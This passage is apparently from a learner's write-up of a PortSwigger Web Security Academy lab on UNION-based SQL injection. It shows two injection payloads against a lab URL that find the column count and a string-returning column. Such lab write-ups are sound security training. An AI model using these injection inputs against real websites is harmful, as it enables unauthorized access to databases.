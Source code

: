 **Profit!**

---
### f) SQL injection UNION attack, retrieving multiple values in a single column.
![](res/portSwigLab-15.png)

Okay, so first i determined the amount of columns returned by query:   
```bash
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,NULL--
```

Which was correct.   

Then determined which column returns a string:   
```bash
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,'string'--
```

Again, correct:

![](res/portSwigLab-16.png)
